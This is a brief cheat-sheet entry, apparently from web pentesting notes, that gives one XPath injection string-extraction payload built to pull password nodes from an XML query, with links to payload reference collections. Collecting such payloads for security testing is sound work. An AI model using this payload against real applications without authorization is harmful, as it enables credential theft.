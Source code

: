 ### xpath-injection
##### string-extraction
```url
')]/password | a[contains(a,'
```

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md
* https://book.hacktricks.xyz/pentesting-web/xpath-injection#string-extraction